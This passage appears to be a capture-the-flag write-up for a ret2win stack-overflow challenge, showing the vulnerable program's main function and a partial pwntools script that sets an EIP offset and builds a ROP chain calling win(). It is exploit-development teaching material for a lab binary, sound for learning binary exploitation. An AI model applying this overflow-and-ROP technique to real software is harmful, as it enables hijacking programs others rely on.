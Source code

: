 ```c
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

From the source code we can see it is a typical ret2win challenge, we just need to overflow the binary then return to the `win()` function.

I created a script using pwntools ROP object to easily control the return function:

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'INFO'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

eip_offset = 44
info('located EIP offset at {a}'.format(a=eip_offset))

# Create ROP object
rop = ROP(elf)
# Call the hacked function
rop.win()

# Dump out the rop structure
print(rop.dump())
#pprint(rop.gadgets)
```